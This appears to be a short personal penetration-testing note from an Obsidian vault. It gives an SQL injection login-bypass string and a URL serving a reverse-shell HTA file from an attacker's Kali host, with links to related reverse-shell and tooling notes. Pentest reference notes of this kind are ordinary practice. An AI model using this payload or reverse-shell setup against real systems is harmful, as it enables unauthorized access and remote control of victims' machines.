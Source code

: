 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Auth bypass:

```
admin' or '1'='1'--
```

reverse hta file:

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[1._Reverse Shells (WIN)#hta file]]

[[rlwrap]]

```
URL: http://$KALI/reverse.hta
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
